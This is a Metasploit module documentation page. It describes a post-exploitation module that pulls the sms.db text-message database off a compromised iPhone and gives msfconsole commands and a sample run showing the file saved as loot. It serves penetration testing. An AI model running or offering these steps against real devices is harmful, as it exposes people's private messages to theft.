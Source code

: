 ## Description
  
  This module downloads the `sms.db` file from iPhones

## Verification Steps

  1. Start msfconsole
  2. Get a session
  3. Do: ```use post/apple_ios/gather/ios_text_gather```
  4. Do: ```set SESSION <session>```
  5. Do: ```run```
  6. You should get the sms.db file on the iPhone target

## Scenarios

### Tested on iOS 10.3.3 on an iPhone 5

  ```

  msf > use post/apple_ios/gather/ios_text_gather
  msf post(apple_ios/gather/ios_text_gather) > set session 1
  session => 1
  msf post(apple_ios/gather/ios_text_gather) > run

  [!] SESSION may not be compatible with this module.
  [+] sms.db file found
  [+] sms.db stored at /Users/space/.msf4/loot/20181101154200_default_192.168.43.49_sms.db.file_591456.txt
  [*] Post module execution completed


  ```
